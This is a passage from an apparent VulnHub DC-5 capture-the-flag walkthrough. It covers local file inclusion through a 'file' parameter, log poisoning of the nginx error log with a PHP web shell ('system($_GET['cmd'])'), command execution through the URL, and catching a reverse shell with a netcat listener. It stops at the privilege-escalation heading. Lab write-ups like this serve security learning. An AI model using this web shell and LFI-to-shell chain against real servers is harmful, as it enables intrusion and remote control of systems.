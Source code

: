 ```bash

Total time: 5.193434
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 498.3215
```
Here I found the `file` parameter and using it we can read files too.
![etc-passwd](/assets/img/dc-5/passwd.png)

# Web Shell via Log Poisoning
Log Poisoning is to put some php into the logs, and then load using lfi. We know that nginx server stored logs in /var/log/ngnix/error.log. The easy way would be to add php code in url it will get written in the log file and then access it with lfi.

## Inject the PHP code 
I inject the php code to get the command line access by making a GET request to the server.

```php
<?php system($_GET['cmd']) ?>
```

![phpinjection](/assets/img/dc-5/phpinjection.png)
## Getting reverse shell
To get code execution on site I added `cmd` parameter to URL.
It looks like this
>http://192.168.1.6/thankyou.php?file=/var/log/nginx/error.log&cmd=id


We can execute any system command on server using it. I execute reverse shell.

![reverse](/assets/img/dc-5/reverse.png)

```bash
┌─[hitesh@parrot]─[~/boxes/vulnhub/dc-5]
└──╼ $nc -nvlp 4444
listening on [any] 4444 ...
connect to [192.168.1.2] from (UNKNOWN) [192.168.1.6] 58309
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@dc-5:~/html$ ^Z
[1]+  Stopped                 nc -nvlp 4444
┌─[✗]─[hitesh@parrot]─[~/boxes/vulnhub/dc-5]
└──╼ $stty raw -echo
┌─[hitesh@parrot]─[~/boxes/vulnhub/dc-5]
└──╼ $nc -nvlp 4444

www-data@dc-5:~/html$ export TERM=xterm
```
# Privesc to Root
